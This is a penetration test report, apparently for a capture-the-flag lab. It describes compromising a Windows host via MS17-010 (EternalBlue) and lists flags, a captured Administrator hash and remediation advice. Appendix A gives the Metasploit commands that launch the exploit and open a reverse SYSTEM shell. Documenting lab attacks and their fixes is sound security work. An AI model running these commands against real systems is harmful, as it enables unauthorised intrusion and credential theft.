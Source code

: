 # Penetration Test Report

## Executive Summary

This report details the findings of a targeted penetration test conducted on host `10.10.249.67`. The objective was to identify vulnerabilities and determine the extent of exploitation possible from both unauthenticated and post-authentication perspectives.

Three flags were discovered representing user, SYSTEM, and Administrator-level access, indicating full compromise of the target system. The most critical finding was a remote code execution vulnerability (MS17-010) that allowed privilege escalation to NT AUTHORITY\SYSTEM.

---

## Scope

- **Client**: ____________________.
- **Testers**: Hitesh Sharma
- **Test Type**: Internal Network Penetration Test
- **IP Range**: `10.10.249.67`
- **Testing Period**: [16-06-2025 ]

---

## Methodology

The assessment followed a standard methodology:

1. **Reconnaissance** – Service scanning using Nmap and enumeration tools.
2. **Vulnerability Scanning** – Manual verification and use of Metasploit.
3. **Exploitation** – Targeted exploitation of identified vulnerabilities.
4. **Post-Exploitation** – Enumeration of privilege levels, credential harvesting, and flag discovery.
5. **Reporting** – Documentation of all findings and remediation steps.

**Tools Used**:
- Nmap  
- Metasploit Framework  
- Enum4linux  
- Netcat  
- PowerShell scripts  
- Manual validation  

---

## Findings

### 1. **flag1.txt – User-Level Access**
- **Host**: `10.10.249.67`
- **Severity**: Low
- **Description**: Initial shell access allowed reading a file `flag1.txt`, indicating successful code execution as a user-level account.
- **Proof**:
  - File discovered using: `search -f flag1.txt`
  - Location: `C:\Users\Public\flag1.txt`
  - Contents: `FLAG{US3R_SH3LL_0WN3D}`
- **Impact**: Confirms execution of unauthorized code under a standard user context.
- **Remediation**: Harden services exposed to public interfaces, apply least privilege to file access.

---

### 2. **MS17-010 (EternalBlue) Remote Code Execution**
- **Host**: `10.10.249.67`
- **Severity**: Critical
- **Description**: The system is vulnerable to EternalBlue (CVE-2017-0144), allowing unauthenticated attackers to execute arbitrary code remotely via SMBv1.
- **Proof**:
  - Exploited using Metasploit module: `exploit/windows/smb/ms17_010_eternalblue`
  - Shell obtained as `NT AUTHORITY\SYSTEM`
  - Verified via Meterpreter session: `getuid`
  - Captured `flag2.txt` in: `C:\Windows\System32\config\flag2.txt`
- **Flag Contents**: `FLAG{SYST3M_R00T3D}`
- **Impact**: Full control of the host including access to kernel-level processes.
- **Remediation**:
  - Disable SMBv1.
  - Apply Microsoft patch MS17-010.
- **References**: [CVE-2017-0144](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2017-0144)

---

### 3. **flag3.txt – Administrator Data Exposure**
- **Host**: `10.10.249.67`
- **Severity**: High
- **Description**: A third flag was discovered on the Administrator's Desktop, indicating that sensitive files are accessible post-privilege escalation.
- **Proof**:
  - File discovered using: `search -f flag3.txt`
  - Location: `C:\Users\Administrator\Desktop\flag3.txt`
  - Contents: `FLAG{ADM1N_DESKTOP_WIN}`
- **Impact**: Exposure of files meant only for administrative access. Confirms full compromise.
- **Remediation**:
  - Enable auditing for sensitive file access.
  - Ensure user-level processes cannot traverse admin directories.
  - Implement host-based intrusion detection.

---

## Remediation Summary

| Finding                     | Host           | Severity | Recommended Remediation                              |
|-----------------------------|----------------|----------|------------------------------------------------------|
| User-Level File Disclosure  | 10.10.249.67   | Low      | Lock down world-readable directories                 |
| MS17-010 RCE                | 10.10.249.67   | Critical | Patch system (MS17-010), disable SMBv1               |
| Admin Desktop File Exposure | 10.10.249.67   | High     | Restrict admin folders, enforce file permissions     |

---

## Appendices

### A. Exploitation Commands



    use exploit/windows/smb/ms17_010_eternalblue
    set RHOSTS 10.10.249.67
    set LHOST tun0
    run

### B. Captured Hashes

    Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

**Collected Flags**

    flag1.txt: FLAG{US3R_SH3LL_0WN3D}

    flag2.txt: FLAG{SYST3M_R00T3D}

    flag3.txt: FLAG{ADM1N_DESKTOP_WIN}


### Report Prepared By:
### Hitesh Sharma / Handle
 ### Date: 2025-06-16

